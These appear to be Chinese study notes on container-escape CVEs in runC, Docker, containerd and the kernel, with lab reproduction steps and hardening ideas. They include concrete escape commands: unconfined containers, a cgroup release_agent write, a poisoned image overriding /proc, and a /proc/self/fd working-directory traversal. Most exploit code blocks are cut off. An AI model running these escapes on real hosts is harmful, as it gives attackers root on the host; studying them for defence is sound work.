- https://zhuanlan.zhihu.com/p/266144563
- https://blog.csdn.net/weixin_46944519/article/details/128253091
- https://ancat.github.io/exploitation/2019/02/16/cve-2019-5736.html
POC:
背景
Docker执行命令，都是调用的runC，流程：
原理
通过覆写和执行主机系统runc二进制文件完成漏洞利用
/proc/{PID}/exec：当权限通过的情况下打开这个文件，内核将会之间返回一个指向该文件的文件描述符，并非按照传统的打开方式做路径分析和文件查找，这就会导致绕过了mnt命名空间和chroot的限制
Linux内核不会按照普通符号链接处理方式在文件系统上做路径解析，而是会直接调用专属的处理函数并返回对应文件的文件描述符
当执行docker exec命令的时候，runC启动并加入到容器的命名空间中去，其实这个时候容器内的进程已经能够通过内部的/proc/观察到它==就是容器内可以知道runC进程的PID号了，PID隔离有缺陷==，因此通过打开/proc/{runc-PID}/exe可以获取宿主机上的runC文件标识符，由此能够达到覆盖的能力。如此，下一次用户调用runC去执行命令时，实际执行的将是攻击者放置的指令
攻击流程：
- 攻击者持有一个被控制/能执行攻击者POC的容器
- 容器内运行的用户为root==为了能覆写/bin/bash、操作/proc文件系统之类的==
- Docker调用runC去在容器内执行命令
- runC进程加入到了容器namespace
- 此时容器可以观测到runC进程的PID，获取
- 通过这个PID，从
/proc/{PID}/exe直接获取宿主机上的runC进程的句柄fd，由于/proc文件系统的特殊性因此能绕过mnt namespace以及chroot的限制 - 这个时候容器进程拥有fd，能够从容器中的
/proc/self/fd/中操纵宿主机的runC程序 - 通过这个fd将runC执行的命令替换掉，等到下次Docker再调用runC，就会在宿主机上执行payload

- 将容器内的
/bin/sh程序覆盖为#!/proc/self/exe- 持续遍历容器内/proc目录，读取每一个/proc/{PID}/cmdline，对“runc”做字符匹配，直到找到runC进程号
- 以只读的方式打开/proc/{runc-PID}/exe，拿到文件描述符fd
- 持续以写方式打开只读fd，直到runC结束占用后，写方式打开成功，通过该fd向宿主机的
/usr/bin/runc写入攻击载荷- runC最后将执行用户通过
docker exec执行的/bin/sh。因为第一步，实际将执行宿主机上的runc，而runc也以及在第四步被覆盖掉
此时由于runc在使用中，无法直接覆盖runc，因此需要使用C语言编写PoC。通过
O_PATH标志,忽略权限打开runc所在/proc/${pid}/exe的二进制文件，获取其文件描述符fd。然后再从文件描述符中（/proc/self/fd/${fd}）以O_WRONLY（只写）标志重新打开文件，然后在一个循环中重复尝试将Payload写入文件描述符中，写入成功后在runc退出的时候会覆盖宿主机上的runc文件。再次使用runc（执行docker exec等）即可执行恶意代码。
复现
环境：Docker 18.03.1
原始POC：
1 | package main |
上面的复现，不知道因何原因会显示“open /bin/sh: text file busy”这样的报错，容器镜像用的CentOS，猜测是不知有什么进程占用了/bin/sh和/bin/bash。因此我的POC中main()函数的上半部分是这样的：
1 | func main() { |
==个人猜测一般使用”/bin/sh”作为要替换成执行“#!/proc/self/exe”的程序，是由于模拟受害者触发漏洞的操作，一般都是执行docker exec -it {container-id} /bin/sh，用以和受损容器交互==
步骤：
1 | # 编译POC |
接着另外启动一个终端，去执行容器内的/bin/ls，模拟受害者触发漏洞（一般是/bin/bash或/bin/sh和容器交互）：
1 | containervuln@containervuln-VM:~$ sudo docker exec cve ls |
攻击者程序回显：
1 | containervuln@containervuln-VM:~/CVE-2019-5736$ sudo docker exec cve /cve/main |
解释：
- 宿主机调用runC，并加入到容器的namespace，被攻击者程序捕获到PID号
- 攻击者用这个PID号，通过”/proc/{PID}/exe”获取runC可执行二进制文件的只读句柄（绕过了chroot以及namespace），这个句柄被添加到了容器进程的
/proc/self/fd/下 - 当runC结束占用它的二进制文件时，攻击者再通过之前获得的只读句柄，以写方式打开，从而能够改写runC二进制可执行文件的行为
- 等到受害者再次触发调用runC，就会转而执行攻击者的payload（这里是在宿主机的/tmp/shadow下写内容）
13.2.3 CVE-2019-14271 - 特权进程使用容器文件
Blog:
- https://bestwing.me/CVE-2019-14271-docker-escape.html
- https://ssst0n3.github.io/post/%E7%BD%91%E7%BB%9C%E5%AE%89%E5%85%A8/%E5%AE%89%E5%85%A8%E7%A0%94%E7%A9%B6/%E5%AE%B9%E5%99%A8%E5%AE%89%E5%85%A8/%E8%BF%9B%E7%A8%8B%E5%AE%B9%E5%99%A8/%E6%9C%8D%E5%8A%A1%E5%99%A8%E5%AE%B9%E5%99%A8/docker/%E5%8E%86%E5%8F%B2%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E4%B8%8E%E5%A4%8D%E7%8E%B0/docker-software/plumbing/docker-cp/CVE-2019-14271/%E5%88%86%E6%9E%90/CVE-2019-14271%E5%88%86%E6%9E%90%E4%B8%8E%E5%A4%8D%E7%8E%B0.html
- https://blog.csdn.net/qq_41667409/article/details/121557358
- https://cloud.tencent.com/developer/news/485728
POC:
docker cp命令的源码分析:
背景
.so库文件篡改
chroot
原理
受CVE-2019-14271漏洞影响的Docker在执行
docker cp命令时，docker-tar进程可能在chroot到容器rootfs后，加载nsswitch动态库。攻击者可以将容器内的nsswitch动态库修改为恶意文件，从而获取docker-tar进程权限，实现容器逃逸。
漏洞成因是由于，docker cp进行拷贝的时候，将docker-tar此进程先chroot到容器内，然而此时使用的.so文件也是容器内的，而docker-tar进程本身没有容器化，意味着仍然拥有高权限，所以此时如果容器内的.so被恶意篡改，那么可能造成Docker容器逃逸
==容器外的docker-tar进程去执行容器内的文件==
执行docker cp后，Docker daemon会启动一个docker-tar进程来完成这项复制任务。若要从容器内复制文件到宿主机上，docker-tar原理：会切换进程的根目录（执行chroot）到容器根目录，然后将需要复制的文件或目录打tar包传递给Docker daemon，Docker daemon负责将内容解包到用户指定的宿主机目标路径。
原本使用chroot，是位了避免了符号连接导致的路径穿越，但是docker-tar仅仅chroot到了容器的文件系统，而程序本身不是容器化的，其在主机命名空间中运行，这意味着docker-tar不受cgroup或seccomp的限制。如果这时候docker-tar加载了容器内部的恶意动态链接库（本来应该从主机文件系统中加载库，但是由于docker-tar chroot到了容器内，所以从容器文件系统中加载动态链接库），被注入恶意代码，那就能够获得对主机完全的root访问权限
原文链接：https://blog.csdn.net/qq_41667409/article/details/121557358
漏洞分析需要分析docker cp命令的执行过程，以及调用的docker-tar和docker-untar命令
官方的修补方法是docker cp命令在进入容器之前先强制加载容器外部的库文件
复现
环境：Docker 19.03.0
POC准备的大致过程：
- patch一个
docker-tar进程会用到的库：libnsss_*.so - 在执行这个库的过程中劫持
docker-cp进程 - 劫持到了就在宿主机上执行恶意行为，成功标志：
- 宿主机的文件系统挂载到了容器内的/host_fs
- 宿主机的/tmp下多了一个hack文件，内容为“hacked”
- 找出docker-tar具体会加载那些容器内的动态链接库
- 下载对应动态链接库源码，为其增加一个
__attribute__((constructor))属性的函数run_at_link（该属性意味着在动态链接库被进程加载时，run_at_link函数会首先被执行），在run_at_link函数中放置我们希望docker-tar执行的攻击载荷（payload）；编译生成动态链接文件- 编写辅助脚本”/breakout“，将辅助脚本和步骤二生成的恶意动态链接库放入恶意容器，等待用户执行
docker cp命令，触发漏洞
可以使用inotify-tools等工具监控docker-tar等对容器内动态链接库的使用情况（需要知道容器根目录在宿主机上的绝对路径，/proc/1/mounts，里面Docker的merged层）
Link: https://blog.csdn.net/qq_41667409/article/details/121557358
==懒人版==
拉取实验容器：sudo docker pull swr.cn-southwest-2.myhuaweicloud.com/container_pentest/cve-2019-14271:v0.1
==已经有了一个漏洞专属的快照，已保存实验容器==
运行容器：sudo docker run -it -d --name cve swr.cn-southwest-2.myhuaweicloud.com/container_pentest/cve-2019-14271:v0.1
确认宿主机和容器内的库文件版本相同，避免兼容性问题：
1 | containervuln@containervuln-VM:~$ ls -lah /lib/x86_64-linux-gnu/libnss_files.so.2 |
对容器执行docker cp命令，触发漏洞，执行上述流程：sudo docker cp cve:/etc/hosts .
验证，发现容器内的/host_fs，挂载了宿主机文件系统，以及宿主机的/tmp/下出现文件hack，内容为”hacked“
12.2.4 CVE-2019-16884 - 容器内procfs被挂载
Blog:
- https://ssst0n3.github.io/post/%E7%BD%91%E7%BB%9C%E5%AE%89%E5%85%A8/%E5%AE%89%E5%85%A8%E7%A0%94%E7%A9%B6/%E5%AE%B9%E5%99%A8%E5%AE%89%E5%85%A8/%E8%BF%9B%E7%A8%8B%E5%AE%B9%E5%99%A8/%E6%9C%8D%E5%8A%A1%E5%99%A8%E5%AE%B9%E5%99%A8/docker/%E5%8E%86%E5%8F%B2%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E4%B8%8E%E5%A4%8D%E7%8E%B0/linux-security-features/what-you-can-actually-do/LSM/apparmor/CVE-2019-16884/CVE-2019-16884%E5%88%86%E6%9E%90%E4%B8%8E%E5%A4%8D%E7%8E%B0.html
- https://github.com/h4ckm310n/Container-Vulnerability-Exploit/blob/main/CVE-2019-16884/README.md
- https://www.anquanke.com/post/id/265343
https://github.com/h4ckm310n/Container-Vulnerability-Exploit/blob/main/CVE-2019-16884/README.md
背景
AppArmor
原理
在容器镜像中可以声明一个VOLUME, 挂载至/proc, 欺骗runC使其认为AppArmor已经成功应用，从而绕过AppArmor策略==实现绕过docker-default规则==
在容器中，AppArmor配置是通过将配置名称写入/proc/self/attr/exec来生效的：
1 | func setprocattr(attr, value string) error { |
但是，只有在/proc是一个proc文件系统的时候，AppArmor才会生效。因此，攻击者可以通过挂载一个普通的文件系统到/proc，从而让runC以为它向proc文件系统的exec文件写入了AppArmor配置。在挂载文件系统之前，runC会先进行检查，可以发现它不允许在/proc里面挂载文件系统，然而它却没有检查挂载到/proc本身的情况，也就是说挂载文件系统到/proc仍然是允许的：
1 | func checkMountDestination(rootfs, dest string) error { |
runC在应用AppArmor策略时，是通过向/proc/self/attr/exec写入exec <Profile Name>实现的
procfs是一个伪文件系统，实际是由内核虚拟的文件系统。因此如果我们可以控制/proc，则实际的AppArmor策略就不会被内核应用
事实上，runC在挂载时有做黑名单校验，不允许挂载的目的路径为/proc
但是在具体校验过程中，有一个严重的逻辑错误，校验不完全，而且测试的代码也写错了，导致形成漏洞
1 | for _, invalid := range invalidDestinations { |
复现
环境：
- Docker: 19.03.2
- containerd: 1.2.6
- runC: 1.0.0-rc8
拉取实验容器：sudo docker pull ubuntu:bionic-20221215
创建一个测试用AppArmor策略配置文件，testprofile:
1 |
|
deny /vol** w意思是不允许在/vol文件夹下写入
宿主机将该配置文件加入内核：sudo apparmor_parser -a ./testprofile
之后：
1 | # 创建测试用文件夹 |
之后尝试向/vol文件夹创建文件，发现是被拒绝的：
1 | root@2f20b18a18ab:/# echo "123" > /vol/testfile |
回到宿主机，创建一个root目录，模拟容器的根目录，并在其中创建proc目录，模拟容器的procfs：
1 | mkdir -p root/proc/self/attr |
创建一个Dockerfile，将刚刚创建的root目录复制到容器根目录，并挂载/proc卷：
1 | FROM ubuntu:bionic-20221215 |
构建恶意镜像：sudo docker build -t malimage .
基于恶意镜像创建攻击者容器：sudo docker run -it --rm --security-opt "apparmor=testprofile" -v ~/vol:/vol malimage bash
容器内执行：echo "haha" > /vol/testfile
发现可以写入，并且宿主机/vol文件夹下出现文件，证明AppArmor策略被绕过
13.2.5 CVE-2020-15257
Blog:
- https://github.com/h4ckm310n/Container-Vulnerability-Exploit/tree/main/CVE-2020-15257
- https://zhuanlan.zhihu.com/p/332334413
- https://zhuanlan.zhihu.com/p/471532280
- https://xz.aliyun.com/t/8925
POC:
背景
containerd通过containerd-shim来控制runC，containerd-shim提供了各种RPC API，containerd通过这些API来向containerd-shim发送请求，从而对容器进行管理（例如创建和删除容器）
原理
containerd-shim的RPC socket是“\x00”开头的，也就是说这是一个抽象socket而不是一个文件socket，抽象socket并不受到mount namespace的隔离，只受到network namespace的隔离
这意味着，当容器与宿主共享网络的时候（Docker中的“–net=host”参数），这个socket同样会暴露在容器中，而容器中的进程可以通过向这个socket发送请求来控制宿主的containerd-shim
官方修复方法是把原本的抽象socket替换成文件socket，这样这个socket就会受到mount namespace的隔离==Doker官方本来是不把这个视为漏洞，因为容器和宿主机共享net namespace本来就不安全，偏配置类错误==
使用AppArmor和SELinux的防护：https://zhuanlan.zhihu.com/p/332334413
复现
失败 - 放弃
POC运行不起来
12.2.6 CVE-2021-30465 - TOCTTOU
Blog:
- https://github.com/h4ckm310n/Container-Vulnerability-Exploit/blob/main/CVE-2021-30465/README.md
- https://mp.weixin.qq.com/s/WRRjLKk_C9pq2WlvnA-NZQ
- https://mp.weixin.qq.com/s/qMAAxUF7BPSosIjoWVA8ZQ
POC:
背景
容器的卷挂载：
挂载⽬录，对容器来说，只是简单把⽬录与容器的⽬录做映射绑定，⽽⽬录的权限还是在主机，需要⽤户⾃制维护，⼿动处理权限等问题
卷 (Volume) 是受控存储，挂载卷后是由容器引擎进⾏管理维护的，也就是把对应卷的所有权交给了容器引擎（本次漏洞的核⼼点）
原理
当a容器起来后，恶意程序疯狂的在挂载的⽬录下刷新软连接与⽬录的关系。与此同时若b容器也像a容器⼀样挂载了相同中的卷和对应卷下⾯的⽬录
因为卷所有权这个时候是在引擎内，并且a容器相同卷下的⽬录还在刷新软连接（相同于创建软连接）这个时间在容器引擎内部就会存在资源竞争，形成了漏洞
CVE-2021-30465是一个runC漏洞，利用这个漏洞可以通过条件竞争攻击来将宿主的目录挂载到容器中。
在容器中挂载volume之前，runC会先调用SecureJoin来检查路径并拼接到容器的根目录下，如果路径是一个符号链接，则会替换成该符号链接指向的对应路径：
1 | case "tmpfs": |
通过条件竞争的方式，可以在路径检查和挂载操作之间将正常路径替换为符号链接。在检查阶段，路径还不是符号链接，所以不会经过处理；而在检查之后、挂载之前，将路径替换为符号链接，这样这个符号链接指向的宿主系统的路径就会被挂载到容器中
复现
环境：
- Docker: 19.03.9
- containerd: 1.4.4
- runc: 1.0.0-rc93
- K8S: 1.21.0
由于漏洞是发生在容器创建期间，挂载卷的竞争条件，因此要不断创建容器以触发漏洞
创建一个包含多个容器的pod，pod.yaml:
1 | apiVersion: v1 |
除了第一个容器以外，其他容器的镜像都是无效的，每个容器都挂载了一个test1卷和5个test2卷。
获取创建好的pod的UID：kubectl get pod pod1 -o yaml | grep uid
将获取到的UID填入下面的POC中：
1 |
|
编译：gcc exp.c -o exp
复制到攻击容器c1：kubectl cp exp -c c1 pod1:/test1/
进入到攻击容器c1：kubectl exec -it pod1 -c c1 bash
1 | # 创建到根目录的符号链接 |
此时攻击容器已经在不断切换挂载卷到根目录的符号链接，试图利用竞争条件
切到宿主机另一个终端，创建并启动剩下的19个容器：
for c in {2..20}; do kubectl set image pod pod1 c$c=ubuntu:latest; done
新容器开始挂载卷，容易被c1进行竞争条件攻击
创建完成之后，查看有多少个容器成功利用漏洞：
for c in {2..20}; do echo c$c; kubectl exec -it pod/pod1 -c c$c -- ls /test1/zzz; done
最后有三个容器都成功挂在了宿主机文件系统


进入c7容器验证一下

12.2.7 CVE-2022-0492 - cgroupfs读写未鉴权
Blog:
- https://github.com/h4ckm310n/Container-Vulnerability-Exploit/tree/main/CVE-2022-0492
- https://blog.csdn.net/Breeze_CAT/article/details/123427680
- https://tari.moe/2024/CVE-2022-0492.html
POC:
背景
cgroup、release_agent
unshare
原理
cgroup的release_agent缺失权限校验，无需CAP_SYS_ADMIN即可发生容器逃逸
1 | static ssize_t cgroup_release_agent_write(struct kernfs_open_file *of, |
整体思路上和配置错误的CAP_SYS_ADMIN+release_agent逃逸方法类似，只不过利用条件不同
利用条件：
- 容器支持cgroup v1，而v2则不受该漏洞影响
- 默认情况下，在容器中cgroup文件系统是只读的，因此需要挂载一个可写的cgroupfs
- 要在容器中执行挂载操作，需要关闭
AppArmor或SELinux - 进程还需要拥有
CAP_SYS_ADMIN这一capability才能挂载cgroupfs，要在容器中获取CAP_SYS_ADMIN需要调用unshare命令，这一操作需要关闭Seccomp - 容器需要通过root用户运行
后来的修复补丁，在写入release_agent文件之前，会先检查namespace是否是init_user_ns，以及进程是否拥有CAP_SYS_ADMIN：
1 | if ((of->file->f_cred->user_ns != &init_user_ns) || !capable(CAP_SYS_ADMIN)) |
复现
环境：
- kernel: 5.11.0-22-generic==可以执行libbpf的minimal，但不能运行bootstrap==
- docker-ce: 19.03.9
- docker-cli: 26.0.1
- containerd.io: 1.5.10
- runc: 1.0.3
POC:
启动一个没有安全措施的裸奔容器==据说这种裸奔容器在K8S集群环境下很常见==：
sudo docker run --rm -it -h cve --name cve --security-opt="seccomp=unconfined" --security-opt="apparmor=unconfined" ubuntu:20.04 /bin/bash
容器内执行：
1 | unshare -UrmC --propagation=unchanged bash |
最后如果在容器根目录下的result文件中看到宿主机的进程情况，则说明漏洞利用成功
==下面是参照另一个POC的，随便看看==
sudo docker run -it --rm --name cve --security-opt="seccomp=unconfined" --security-opt="apparmor=unconfined" centos /bin/bash
1 | [root@35149cd17b7e /]# cat /proc/self/status | grep Cap |
1 | [root@35149cd17b7e /]# unshare -UrmC bash |
1 | mkdir /mnt/cgroup |
1 | mount | grep upperdir |
1 | touch hacked |
1 |
|
/host_file是宿主机根目录下的一个文件，内容为“host file content”，
sudo chmod 700 /host_file
echo "/var/lib/docker/overlay2/cf4618f2c01df01010584e44a0caab0b12a845cc8ef1e37945ccf83934857f33/diff/malicious.sh" > /mnt/cgroup/release_agent
12.2.8 CVE-2022-23648
https://github.com/raesene/CVE-2022-23648-POC
12.2.9 CVE-2024-21626 - 未关闭的cgroupfs描述符
Blog:
POC:
背景
原理
==看上面的博客==
runc run 命令在刚启动时会创建一个 libcontainer.linuxContainer 对象。在创建此对象之前会先创建一个用于操作 cgroup 的接口类型对象 cgroups.Manager，由于 runc 操作 cgroup 的实现原理，它会打开宿主机文件系统中的 /sys/fs/cgroup 目录，后续对 cgroup 文件的打开操作都是基于 openat2(2) 系统调用。但是在生成子进程时并没有把 /sys/fs/cgroup 目录的文件描述符关闭，以至于子进程仍可以利用该文件描述符的 /proc/self/fd/<fdnum> 符号链接访问宿主机文件系统。如果 openat(2) 调用失败，那么会调用 openFallback() 函数以绝对路径的方式打开 cgroup 文件。
复现
环境：
- docker-cli: 26.0.1
- docker-ce: 5:24.0.6-1~ubuntu.20.04~focal
- containerd.io: 1.6.24-1
- runC: 1.1.9
Docker命令启动时指定-w参数，设置工作目录为/proc/self/fd/7或/proc/self/fd/8即可，比如：sudo docker run -w /proc/self/fd/8 --name cve --rm -it ubuntu
可能要试多几次才能成功：

又或者是稳定点的利用方式：
正常启动容器：sudo docker run --name cve --rm -it ubuntu
容器中创建/proc/self/fd/7或/proc/self/fd/8的符号链接：
1 | root@a6dfc902999d:/# ln -sf /proc/self/fd/7/ /foo |
容器外部设定工作目录为任一符号链接，执行容器内命令：
sudo docker exec -it -w /foo cve sleep 600
回到容器内找到sleep程序的PID号：
1 | ls -F /proc/ |
接着就可以用proc/{PID}/cwd/../../../../{xxxx}形成路径穿越访问宿主机文件系统了：

13.3 内核漏洞引起的逃逸
13.3.1 CVE-2016-5195 - DirtyCow
13.3.2 CVE-2022-0847 - DirtyPipe
Blog:
*
POC:
*
13.4 内核层加固
配置类
组件CVE
CVE-2018-15664：在内核最终对路径进行解析的位置的函数进行加固（限制宿主机）
CVE-2019-5736：限制runC的fd只能被特定程序打开？
CVE-2019-14271：限制加载的动态链接库不能是容器内的？
CVE-2019-16884：不允许卷的挂载路径为/proc
CVE-2021-30465：判断参数传入的挂载路径和最后实际的挂载路径是否一致？
CVE-2022-0492：在写入release_agent文件之前，先检查namespace是否是init_user_ns，或者进程是否拥有CAP_SYS_ADMIN
CVE-2024-21626：判断对工作目录是否为容器目录的判断？